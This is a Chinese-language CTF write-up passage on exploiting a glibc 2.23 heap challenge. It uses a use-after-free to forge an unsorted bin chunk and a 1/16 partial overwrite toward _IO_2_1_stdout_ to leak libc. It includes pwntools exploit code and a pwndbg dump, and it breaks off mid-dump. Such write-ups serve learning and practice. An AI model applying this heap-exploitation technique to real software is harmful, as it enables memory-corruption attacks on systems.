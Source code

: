 这个没有show功能，开pie保护了，想通过unlink来实现泄露不太现实

于是便想到了用uaf伪造unsortedbin控制他的fd然后利用IO文件流来泄露

第一步伪造unsortedbin

chunk0

chunk1

chunk2

chunk0里面先伪造好fake chunk head 这个fake chunk 的chunk_size要和等下用来修改fd的chunk大小一致

因为如果bin中有chunk空间，优先向bin获取在没有tcache的情况下

我们这里chunk最大是0x60

chunk0大小为0x28  中间的chunk1-2用来凑大小，chunk3用来指向chunk4 chunk4用来修改fd chunk5隔开top chunk

这里再强调下，我们构造unsortedbin是为了控制他的双向指针，我们最后泄露的地址是\_IO_2_1_stderr_+xx的不是main_arean+88的

```python
    payload=p64(0)*1+p64(0x71)
    add(0x28,0,payload)
    add(0x18,1,'cccc')
	add(0x38,2,'dddd')
	add(0x60,3,'eeee')
	#gdb.attach(p)
	add(0x60,4,'aaaa')
	#gdb.attach(p)
	add(0x60,5,'bbbb')
	#gdb.attach(p)
	delete(3)
	#gdb.attach(p)
	delete(4)
	#gdb.attach(p)
	edit(4,'\x10')
	#gdb.attach(p)
	add(0x60,8,'dd')
	#gdb.attach(p)
	add(0x60,7,p64(0)*3+p64(0x21)+p64(0)*3+p64(0xb1))
	#gdb.attach(p)
	delete(2)
	delete(3)
```

第二步爆破踩地址以及修改flag

概率是1/16为什么不直接爆破地址在\_IO_2_1_stdout_的地址而是在他上面距离0x43的地方?

因为这里libc-2.23对size有做检测，我们还要把他覆盖掉填充0x33大小的'\x00'，也是在\_IO_2_1_stdout_-0x10的地方开始修改他的size

修改前

```c
pwndbg> x/32gx 0x7ffff7dd2620-0x10
0x7ffff7dd2610 <_IO_2_1_stderr_+208>:	0x0000000000000000	0x00007ffff7dd06e0
0x7ffff7dd2620 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd26
```
